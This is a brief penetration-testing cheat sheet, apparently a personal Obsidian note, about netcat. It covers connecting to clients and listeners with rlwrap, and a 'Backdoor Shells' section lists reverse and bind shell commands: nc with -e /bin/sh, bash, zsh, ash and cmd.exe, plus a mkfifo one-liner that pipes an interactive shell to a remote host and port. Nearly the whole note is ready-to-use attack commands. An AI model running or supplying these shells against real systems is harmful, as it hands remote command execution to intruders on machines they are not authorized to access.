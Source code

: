 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#exploitation
## Fundamentals:

Connect to a netcat client:
- rlwrap nc [IP Address] [port]

Connect to a netcat Listener:

- rlwrap nc -lvp [Localport]

More info on rlwrap: https://linux.die.net/man/1/rlwrap

## Backdoor Shells: 

Linux: 

- rlwrap nc [Your IP Address] -e /bin/sh 
- rlwrap nc [Your IP Address] -e /bin/bash
- rlwrap nc [Your IP Address] -e /bin/zsh
- rlwrap nc [Your IP Address] -e /bin/ash


Windows: 

- rlwrap nc -lv [localport] -e cmd.exe

Linux netcat reverse shell: 

- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

